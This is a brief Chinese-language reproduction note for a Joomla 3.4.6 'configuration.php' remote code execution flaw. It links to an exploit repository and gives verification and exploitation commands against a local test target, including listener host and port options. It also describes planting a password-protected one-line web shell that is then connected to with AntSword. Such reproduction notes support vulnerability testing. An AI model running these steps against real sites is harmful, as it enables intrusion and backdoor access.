 Joomla 3.4.6 - \'configuration.php\' 远程代码执行
=================================================

一、漏洞简介
------------

Joomla 3.4.6 - \'configuration.php\' Remote Code Execution

二、影响范围
------------

Joomla 3.0.0 至 3.4.6

三、复现过程
------------

<https://github.com/ianxtianxt/Joomla-3.4.6---configuration.php-Remote-Code-Execution>

### 脚本验证

验证：

    python3 test.py -t http://127.0.0.1:8080/

![](resource/Joomla3-3.4.6远程命令执行漏洞/media/rId26.png)

显示"Vulnerable"证明存在漏洞

利用：

    python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121

![](resource/Joomla3-3.4.6远程命令执行漏洞/media/rId27.png)

执行成功

并在"configuration.php"写入**随机密码**的一句话木马
![](resource/Joomla3-3.4.6远程命令执行漏洞/media/rId28.png)
上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

image
